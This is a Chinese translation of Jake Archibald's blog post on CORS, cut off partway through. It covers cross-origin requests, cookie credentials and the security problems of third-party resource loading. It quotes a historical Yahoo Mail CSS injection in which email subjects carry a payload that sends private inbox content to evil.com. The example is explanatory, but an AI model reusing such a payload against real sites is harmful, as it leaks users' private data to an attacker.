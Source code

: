 ```yaml
---
title: 致胜 CORS
date: 2021/11/07 15:40
categories:
- [前端, 自翻, 转载]
tags:
- 转载
- 自翻
---
```

&emsp;&emsp;转载自翻自[Jake Archibald](https://jakearchibald.com/)的博文[How to win at CORS](https://jakearchibald.com/2021/cors/)。翻译有纰漏和不足之处请多多指教。

&emsp;&emsp;跨域资源共享 `(CORS -> Cross-Origin Resource Sharing)` 一直是一个老大难的问题，它是浏览器资源请求的一部分，它的一系列特性从最早一批浏览器开始至今已经有近30年的历史。从那时开始，cors 不断的发展，添加新的功能，提升默认能力，在不打破太多的 web 规则下修补过去的错误。

&emsp;&emsp;无论如何，我认为我应该写下我对 CORS 所知的一切，为了让这些内容更形象，我还做了一个 web app [`The CORS playground`](https://jakearchibald.com/2021/cors/playground/)。如果需要的话，你可以马上进入这个网站尝试操作一下，但是我还是觉得你应该先看完这篇文章，了解一些常识示例。

&emsp;&emsp;回归正题，在我介绍如何致胜 CORS 之前，我想解释一下 CORS 到底是什么，为什么会存在，为什么能成为 web 资源请求的一种方式。祝我好运...

## 三方源请求
> 我非常荣幸在此提出一个 HTML 的新标签 IMG，它拥有 SRC 属性，接收一个 url 地址。—— [Marc Andreessen in 1993](http://1997.webhistory.org/www.lists/www-talk.1993q1/0182.html)

&emsp;&emsp;浏览器支持从其它站点获取到图片资源已经有30多年了，你不需要得到其它网站的许可就能使用 IMG 标签获得图片资源。当然了，不单单是 IMG 标签：

```html
<script src="…"></script>
<link rel="stylesheet" href="…" />
<iframe src="…"></iframe>
<video src="…"></video>
<audio src="…"></audio>
```
&emsp;&emsp;上面列举的 HTML 标签，能够在不用获取许可的情况下，以比较特殊的方式向其它网站发起资源请求。一直到1994年，`HTTP cookies` 的诞生让这种资源请求方式安全问题暴露出来。

&emsp;&emsp;`HTTP cookies` 是一些列我们称之为 [授权认证](https://fetch.spec.whatwg.org/#credentials)。这些认证中还包含了 TLS 认证( TLS client certificates) 。这些认证方式使用 HTTP 请求头来自动的获得认证状态。这些认证状态可以通过后端服务进行保存，维持在之后的用户发起的请求中，这就是 `Twitter` 或者 `银行` 能够认证你的账号以及对账号一系列操作的原因。

&emsp;&emsp;在这个背景下，当你使用上面的列举的这些 HTML 标签去请求第三方网站的资源的时候，请求头会带上你在第三方网站的所有认证信息。在当时的情况下，这造成了数不清的巨大安全问题。

```html
<img src="https://your-bank/your-profile/you.jpg" />
```
&emsp;&emsp;以 IMG 标签加载为例。IMG 标签拥有 load 和 error 两个事件，分别在图片加载成功和失败的时候触发。如果这两个事件是根据你是否成功登陆第三方网站来触发的，这就能让我知道你的大部分信息。我还能获取到图片的宽高等信息，这些信息根据用户不同也是不同的。

&emsp;&emsp;事情在 CSS 的相关标签上面变得更糟，CSS 相关的标签比 IMG 标签拥有更多的能力，也不会立刻触发 load 和 error。在2009前后，雅虎邮箱的用户都遭遇过使用 CSS 标签进行的攻击。他们收到两封邮件，一封主题邮件包含字符：`');}`，另一封邮件主题包含字符：`{}html{background:url('//evil.com/?`。

```html
…
<li class="email-subject">Hey {}html{background:url('//evil.com/?</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">…private data…</li>
<li class="email-subject">Yo ');}</li>
…
```
